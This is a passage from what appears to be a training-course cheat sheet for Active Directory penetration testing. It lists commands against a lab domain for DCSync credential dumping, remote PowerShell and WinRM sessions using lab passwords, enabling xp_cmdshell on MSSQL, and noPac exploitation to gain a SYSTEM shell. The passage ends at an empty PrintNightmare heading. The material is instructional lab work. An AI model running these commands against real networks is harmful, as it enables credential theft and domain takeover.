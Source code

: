 | `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |



# Privileged Access 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`). |
| `evil-winrm -i 10.129.201.234 -u forend`                     | Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`. |
| `Import-Module .\PowerUpSQL.ps1`                             | Used to import the `PowerUpSQL` tool.                        |
| `Get-SQLInstanceDomain`                                      | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host. |
| `mssqlclient.py`                                             | Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help`                                                  | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell`                                   | Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv`                                   | Used to enumerate rights on a system using `xp_cmdshell`.    |



# NoPac

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo git clone https://github.com/Ridter/noPac.git`         | Used to clone a `noPac` exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |



# PrintNightmare
